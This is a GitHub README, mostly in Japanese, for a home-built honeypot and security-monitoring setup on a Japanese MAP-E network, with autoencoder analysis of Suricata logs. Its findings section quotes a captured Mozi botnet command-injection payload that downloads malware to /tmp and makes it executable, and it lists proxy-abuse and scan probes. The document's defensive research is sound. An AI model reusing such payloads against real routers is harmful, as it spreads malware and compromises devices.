



# Edge AI SOC & Honeypot Architecture (v6 Plus / MAP-E Environment)

## 1. Project Overview (概要)
本プロジェクトは、日本のコンシューマ向けISPに特有の「IPv4 over IPv6 (MAP-E) / CGNAT」という厳しいネットワーク制約下において、完全にオンプレミスなゼロトラスト・エッジサーバーを構築し、攻撃者のTTPs（戦術・技術・手順）を収集・AI分析する自己完結型のSOC（Security Operations Center）基盤です。

## 2. Architecture (システム構成)


* **Hardware:** Ubuntu Server 26.04 LTS / Intel Core i7-7700HQ / 8GB RAM / NVIDIA GTX 1050 Ti (VRAM 4GB)
* **Storage:** 128GB SSD (OS) / 1TB HDD (Data `/mnt/data` - ext4)
* **Network:** NTT PR-500KI + Buffalo Router (Double DNAT) / WireGuard (Full Tunnel, OOB Management)
* **Honeypot & IDS:** Nginx (Read-Only, `cap_drop: ALL`) + Suricata (`network_mode: "service:nginx-honeypot"` Sidecar Pattern)
* **Log Pipeline:** Promtail -> Loki -> Grafana (PLG Stack)
* **AI Analysis:** JupyterLab (NVIDIA Container Toolkit + GPU Passthrough)

## 3. Key Challenges & Technical Solutions (直面した課題と技術的解決策)
本環境の構築にあたり、以下の技術的制約を独自のアプローチで突破しました。

* **MAP-E (v6 Plus) 環境でのポート制約とDouble NAT貫通**
  NTTルーターの隠し管理画面から利用可能なIPv4ポートブロックを特定。バッファロールーターのDHCP自動取得とIPv6パススルーを固定設定し、Double DNAT構成でVPN(UDP 36752)およびハニーポット(TCP 8080)の通信を確立。
* **WireGuardのMTUブラックホール回避**
  v6プラス環境特有のカプセル化オーバーヘッドによるパケットロスを特定し、MTUを `1360` にチューニングしてフルトンネルを安定化。
* **コンテナ隔離とサイドカー型パケットキャプチャ**
  標的となるNginxコンテナは `read_only: true` および `cap_drop: ALL`（必要最小限の権限のみホワイトリスト付与）で要塞化し、万が一の侵入時にもファイル改ざんや踏み台化を防止。Suricataは `service:nginx-honeypot` のネットワーク名前空間に相乗りさせるサイドカー設計とし、ホストOSから隔離しつつ攻撃通信を完全に捕捉。
* **UEFI Secure Boot下でのGPUパススルー**
  `nvidia-driver-580-server` の実行権限を確保するため、MOK（Machine-Owner Key）を自作・登録。VRAM 4GBの制約に対してはTensorFlowの `set_memory_growth` を適用し枯渇を防止。
* **戦略的撤退によるSOCダッシュボードの最適化**
  SNAT環境下でのGeoIP（位置情報）維持はインフラ改修コストが大きいため、IoC（送信元IP）の追及を避け、攻撃者の意図（TTPs: 標的URLやシグネチャ）の可視化へリソースを集中。LokiのgRPC 4MB制限やGrafanaの描画バグも設定のオーバーライドにより解決。
  

## 4. How to Use (起動手順)
すべてのデータとコンテナボリュームは、OS領域（SSD）の摩耗と容量逼迫を避けるため `/mnt/data`（HDD）配下に展開されます。

```bash
# 1. Start PLG Stack (Monitoring)
cd docker/plg-stack
docker compose up -d

# 2. Start Honeypot & Suricata IDS
cd ../honeypot
docker compose up -d

# 3. Start JupyterLab (GPU AI Analysis)
cd ../ai-analysis
docker compose up -d
```

## 5. Exploratory Data Analysis & AI Anomaly Detection (実データ分析とAI異常検知)

1週間のハニーポット稼働により収集した約1.9GBのIDSログ（Suricata `eve.json`）に対し、NVIDIA GTX 1050 Ti（GPUパススルー環境）上のJupyterLabを用いて探索的データ分析（EDA）およびディープラーニング（Autoencoder）による教師なし異常検知を実施した。

### 5.1 データクレンジング（無差別スキャンノイズの特定と除外）
777MBのWebハニーポットログから不要なシステム統計（`stats`）等を除外した38,255件のイベントを分析した結果、総HTTPイベント（37,777件）の約95%（36,101件）が `/v1/decisions/stream`（CrowdSec LAPIエンドポイント）へのポーリング通信であることをEDA段階で特定。これを前処理でクレンジングし、純粋な外部からの攻撃・スキャン通信 **1,676件** を抽出した。

### 5.2 Autoencoderによる未知・希少アノマリーの抽出結果
正常なベースライン通信（ルートアクセス等）のみを用いてAutoencoderを学習させ、再構成誤差（MSE）を異常度スコアとして算出した。初期モデルにおける過学習（Validation Lossの乖離）をデータのランダムシャッフルとEarlyStoppingの導入により解消し、良好な収束を確認した。



再構成誤差の上位5%（閾値: 3.15）をアノマリーとして抽出した結果、単純なアクセス頻度集計（Top URLランキング）では埋もれていた以下の高度な攻撃ペイロードをシグネチャに依存せず検知することに成功した。

* **IoTボットネット「Mozi」のOSコマンドインジェクション (Score: 12.76):**
  `http://%s:%d/Mozi.m -O -> /tmp/Netlink.m;chmod 777 ...` — GPONルーター等の脆弱性を突き、マルウェアのダウンロードと実行権限付与を試みる実攻撃ペイロードを捕捉。
* **プロトコル・ファジング攻撃 (Score: 55.96 - 87.59):**
  `EFDK`, `LRAN`, `SNDV`, `FPKM`, `OFPQ` 等の非標準HTTPメソッドを用いたサーバー挙動の探索スキャン。
* **プロキシ悪用（踏み台）およびバイナリインジェクション (Score: 10.58 - 81.58):**
  `\xf0|\x8a...` 等の16進数バイナリデータ（シェルコード/TLSハンドシェイク）の流し込みや、`stackoverflow.com` / `ifconfig.me` 等へのオープンプロキシ中継を試みる通信（Read-Only Nginx設計によりすべて400/405エラーで無力化済み）。
* **WebDAV / AIエージェント探索スキャン:**
  `PROPFIND` メソッドによるWebDAV探索（Score: 10.76）や、近年のトレンドであるMCP（Model Context Protocol）エンドポイント（`/mcp`, `/sse`, `/api/mcp`）および `/.env` を狙う最新のスキャン動向を確認。

詳細な前処理および学習コードは [`notebooks/web_honeypot_analysis.ipynb`](./notebooks/web_honeypot_analysis.ipynb) を参照。